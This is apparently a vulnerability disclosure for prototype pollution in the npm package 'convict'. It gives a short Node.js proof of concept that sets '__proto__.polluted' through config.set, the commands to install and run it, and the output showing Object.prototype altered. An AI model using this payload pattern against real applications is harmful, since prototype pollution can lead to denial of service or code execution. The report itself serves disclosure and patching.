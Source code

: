 # Description

`convict` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var convict = require("convict");
var obj = {};
var config = convict(obj);
console.log("Before : " + {}.polluted);
config.set("__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i convict # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
